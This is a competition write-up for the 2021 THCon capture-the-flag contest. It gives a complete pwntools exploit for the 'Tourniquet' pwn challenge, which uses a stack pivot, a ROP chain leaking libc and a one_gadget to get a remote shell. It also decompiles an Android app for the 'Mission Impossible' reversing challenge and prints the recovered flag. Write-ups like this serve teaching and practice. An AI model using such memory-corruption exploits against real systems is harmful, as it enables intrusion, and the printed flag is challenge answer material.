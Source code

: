 ```yaml
---
title: "2021 thcctf write-up"
date: 2021-06-14T22:41:00+09:00
categories: ["ctf"]
layout: post
tags: []
draft: true
---
```

## Tasks

- Pwn
  - Tourniquet (249pts)
- Rev
  - Mission Impossible (246pts)

---

## Tourniquet (Pwn, 249pts)

![1.png](/images/2021-thcctf/1.png)  
![2.png](/images/2021-thcctf/2.png)
This is stack pivot problem without overwriting RET. First, our team planned to input more than `0x48` bytes to overwrite RET.

But, it has a constraint:

- `fgets(size, buf, stdin)` set arguments from stdin to size.. so I can't call containing `stdin`.
- Should bruteforce(1/16) to get correct stack pointer.
- Must do `stack pivot` until I find a writable memory after leaking `libc`.

So, I just DO STACK PIVOT 3 times, and find ONE 8byte memory.

The following process is my idea to get shell..

1. Overwrite one byte of SFP to `\x00` using fgets() function's `\n + \x00`.
2. Bruteforce correct position of RBP. and ROP with puts to get libc.
3. stack pivot to main(mov rbp, rsp) twice (my solution in competition).(※ To go `__start` is another solution to get many memories that I can use for next ROP.)
4. find one_gadget with `strings` and `objdump` command because `gem one_gadget` could't get shell on remote.
5. Get Shell.

Here is my payload.

```py
from pwn import *
context.log_level='debug'
#context.terminal=['tmux','splitw','-h']
e=ELF("./tourniquet")
libc=ELF("./libc.so.6")
#libc=e.libc
pRdi=0x00000000004006d3
pRsi_r15=0x00000000004006d1
main=e.sym['main']
puts_got=e.got['puts']
puts_plt=e.plt['puts']
setvbuf_got=e.got['setvbuf']
rdx_offset=0x0000000000001b92
pppr=0x00000000004006cc
bss=0x601100
fgets=e.plt['fgets']

pay=p64(0x601100+0x40)+p64(pRdi)+p64(setvbuf_got)+p64(puts_plt)+p64(0x400627)+p64(0x601100+0x40)+p64(0x400627)+"\x00"*7

while True:
  try:
    p=remote("remote2.thcon.party", 10901)
    #p=process("./tourniquet")
    p.sendlineafter("haha i'm unhackable right ?\n",pay)
    leak=p.recvuntil("\x7f",timeout=1).ljust(8,'\x00')
    if '\x7f' not in leak:
      p.close()
      continue
    base=u64(leak)-libc.sym['setvbuf']
    rdx=base+rdx_offset
    stdin=base+libc.sym['_IO_2_1_stdin_']
    one_gadget=base+0xe5418
    print hex(base)
    break
    #pay=p64(0x4004c6)*2+p64(07+............x00000000004004c6)+p64(pRdi)+p64(setvbuf_got)+p64(puts_plt)+p64(main)+"A"*7
  except:
    p.close()
    continue

pause()
p.recv()
p.sendline("1234")

pay=p64(0)*5+p64(0x1234)+p64(one_gadget)
pay=pay.ljust(0x3f,'\x00')

p.recv()
p.sendline(pay)

p.interactive()
```

## Mission Impossible (Rev, 246pts)

1. extract apk and convert dex to jar using dex2jar tools.
2. There's nothing ....:(
3. find hidden `dex` files in `MissionImpossibleTheme.mp3.
4. Get this Code with jd-gui.

```java
package thcon21.ctf.payload;

import android.util.Base64;
import java.io.UnsupportedEncodingException;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.GCMParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class MIRead
{
  private static final String CIPHER_ALGO = "AES/GCM/NoPadding";
  private static final String IV = "your_m1ssi0n";
  private static final String KEY = "d0_you_acc3pt_it";
  private Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
  private GCMParameterSpec parameterSpec = new GCMParameterSpec(128, "your_m1ssi0n".getBytes("utf-8"));
  private SecretKeySpec secretKeySpec = new SecretKeySpec("d0_you_acc3pt_it".getBytes("utf-8"), "AES");
  
  public MIRead()
    throws NoSuchPaddingException, NoSuchAlgorithmException, UnsupportedEncodingException
  {}
  
  public String decrypt(String paramString)
    throws UnsupportedEncodingException, BadPaddingException, IllegalBlockSizeException, InvalidAlgorithmParameterException, InvalidKeyException
  {
    paramString = Base64.decode(paramString.getBytes("UTF-8"), 0);
    this.cipher.init(2, this.secretKeySpec, this.parameterSpec);
    return new String(this.cipher.doFinal(paramString));
  }
  
  public String encrypt(String paramString)
    throws UnsupportedEncodingException, BadPaddingException, IllegalBlockSizeException, InvalidAlgorithmParameterException, InvalidKeyException
  {
    this.cipher.init(1, this.secretKeySpec, this.parameterSpec);
    return new String(Base64.encode(this.cipher.doFinal(paramString.getBytes("utf-8")), 0));
  }
}
```

```java
public static void main(String[] paramArrayOfString)
  {
    testFlag();
    paramArrayOfString = paramArrayOfString[0];
    while (0 != 0) {}
    Object localObject = new StringBuilder();
    ((StringBuilder)localObject).append("IkUegPuai+gfBce7nTf");
    if ("IkUegPuai+gfBce7nTf" != "VEhDb24yMQo=")
    {
      ((StringBuilder)localObject).append("CkMZzZSwne3X3mnyrc5oBcD2yGHUXy");
    }
    else
    {
      ((StringBuilder)localObject).append("MissionImpossible");
      return;
    }
    ((StringBuilder)localObject).append("MMcjCaXX2AAY20H");
    localObject = ((StringBuilder)localObject).toString();
    if (paramArrayOfString.equals("MissionImpossible")) {
      System.out.println((String)localObject);
    }
  }
```

The secret code is `IkUegPuai+gfBce7nTfCkMZzZSwne3X3mnyrc5oBcD2yGHUXyMMcjCaXX2AAY20H`.
Then, how to decrypt?
→ this file uses `AES/GCM/NoPadding` Mode. So I find python code in google. So I modified code and get flag.

```py
from Crypto.Cipher import AES
import base64

def print_hex_bytes(name, byte_array):
    print('{} len[{}]: '.format(name, len(byte_array)), end='')
    for idx, c in enumerate(byte_array):
        print("{:02x}".format(int(c)), end='')
    print("")

def dec(key, aad, nonce, cipher_data, mac):
    print('\nenter dec function ---------------------------------')
    cipher = AES.new(key, AES.MODE_GCM, nonce)

    try:
        plain_data = cipher.decrypt(cipher_data)
        print_hex_bytes('plain_data', plain_data)
        print('exit dec function ---------------------------------')      
        return plain_data

    except ValueError:
        print ("Key incorrect")
        print('exit dec function ---------------------------------')
        return None

if __name__ == "__main__":
    key   = b"d0_you_acc3pt_it"
    aad   = bytes([0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08,0x09,0x0A,0x0B,0x0C,0x0D,0x0E]) #
    nonce = b"your_m1ssi0n"

    cipher_data  = base64.b64decode(b"IkUegPuai+gfBce7nTfCkMZzZSwne3X3mnyrc5oBcD2yGHUXyMMcjCaXX2AAY20H")
    mac = bytes([0xb3, 0x5e, 0x5b, 0x00, 0xe4, 0x11, 0x54, 0x39, 0xa3, 0xf8, 0xf9, 0xfb, 0xa3, 0x75, 0xd5, 0xe8]) 
  
    print_hex_bytes('key', key)
    print_hex_bytes('aad', aad)
    print_hex_bytes('nonce', nonce)
    print_hex_bytes('cipher data', cipher_data)
    print_hex_bytes('mac', mac)

    result = dec(key, aad, nonce, cipher_data, mac)
    if result is not None:
        print('\nDecrypted value:')
        print_hex_bytes('\tresult(plain data)', result)
```

```bash
/mnt/d/CTF_List/2021/thcctf/rev/mission_impossible master* ⇣ ❯ python3 ex.py
key len[16]: 64305f796f755f6163633370745f6974
aad len[14]: 0102030405060708090a0b0c0d0e
nonce len[12]: 796f75725f6d31737369306e
cipher data len[48]: 22451e80fb9a8be81f05c7bb9d37c290c673652c277b75f79a7cab739a01703db2187517c8c31c8c26975f6000636d07
mac len[16]: b35e5b00e4115439a3f8f9fba375d5e8

enter dec function ---------------------------------
plain_data len[48]: 5448436f6e32317b546831732d5761732d506f737331626c652d466f722d557d8c0cda62bc921356ee356da0fe457d63
exit dec function ---------------------------------

Decrypted value:
        result(plain data) len[48]: 5448436f6e32317b546831732d5761732d506f737331626c652d466f722d557d8c0cda62bc921356ee356da0fe457d63

/mnt/d/CTF_List/2021/thcctf/rev/mission_impossible master* ⇣ ❯ python3
Python 3.8.5 (default, Jul 28 2020, 12:59:40) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.  
>>> bytes.fromhex("5448436f6e32317b546831732d5761732d506f737331626c652d466f722d557d8c0cda62bc921356ee356da0fe457d63")
b'THCon21{Th1s-Was-Poss1ble-For-U}\x8c\x0c\xdab\xbc\x92\x13V\xee5m\xa0\xfeE}c'
```